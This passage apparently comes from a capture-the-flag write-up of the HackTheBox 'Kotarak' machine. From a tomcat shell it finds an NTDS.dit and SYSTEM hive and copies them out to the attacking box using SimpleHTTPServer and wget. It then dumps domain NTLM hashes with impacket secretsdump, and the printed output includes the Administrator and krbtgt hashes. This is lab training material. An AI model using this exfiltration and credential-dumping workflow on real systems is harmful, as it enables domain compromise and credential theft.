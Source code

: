 ```
tomcat@kotarak-dmz:~$ cd /home/tomcat
cd /home/tomcat
tomcat@kotarak-dmz:/home/tomcat$ ls
ls
to_archive
tomcat@kotarak-dmz:/home/tomcat$ ls -al
ls -al
total 12
drwxr-xr-x 3 tomcat tomcat 4096 Jul 21  2017 .
drwxr-xr-x 4 root   root   4096 Jul 21  2017 ..
drwxr-xr-x 3 tomcat tomcat 4096 Jul 21  2017 to_archive
tomcat@kotarak-dmz:/home/tomcat$ cd to_archive
cd to_archive
tomcat@kotarak-dmz:/home/tomcat/to_archive$ ls -al
ls -al
total 12
drwxr-xr-x 3 tomcat tomcat 4096 Jul 21  2017 .
drwxr-xr-x 3 tomcat tomcat 4096 Jul 21  2017 ..
drwxr-xr-x 2 tomcat tomcat 4096 Jul 21  2017 pentest_data
tomcat@kotarak-dmz:/home/tomcat/to_archive$ ls pentest_data
ls pentest_data
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Grab the `dit` and `bin` files off the box using a common httpserver workflow in reverse.

```
# Attacking box
wget http://kotarak.htb:8088/1.dit                                                                                
wget http://kotarak.htb:8088/1.bin

# Kotarak.htb tomcat user shell
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ python -m SimpleHTTPServer 8088
<mcat/to_archive/pentest_data$ python -m SimpleHTTPServer 8088               
Serving HTTP on 0.0.0.0 port 8088 ...
10.10.14.24 - - [05/Feb/2022 13:55:12] "GET /1.dit HTTP/1.1" 200 -
10.10.14.24 - - [05/Feb/2022 13:55:19] "GET /1.bin HTTP/1.1" 200 -
```

## Extracting hashes
To extract the hashes, we can follow [ropnops blog](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit) post and use `secretsdump.py` from the impacket suite.
```
secretsdump.py -ntds 1.dit -system 1.bin LOCAL
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 1.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from 1.dit 
```